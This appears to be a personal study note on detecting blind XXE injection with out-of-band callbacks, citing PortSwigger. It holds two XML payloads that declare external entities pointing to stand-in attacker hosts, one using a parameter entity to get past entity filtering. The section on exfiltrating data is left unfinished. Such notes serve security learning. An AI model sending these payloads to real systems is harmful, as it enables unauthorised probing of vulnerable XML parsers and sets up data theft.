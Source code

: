 # Detecting blind [[XXE]] using out-of-band (OAST) techniques

Use HTTP request:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://bupr-collaborator.web-attacker.com"> ]>
```
Monitor if there any DNS or HTTP requests to your URL.

If entities are blocked, due to input validation, you might be able to use XML parameter entities instead which can be referenced within DTO only.
**Declaration example**:
```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
**Usage**:
```
%myparameterentity;
```
**Example**:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

# Exploiting blind XXE to exfiltrate data out-of-band

#to-be-continued
https://portswigger.net/web-security/xxe/blind
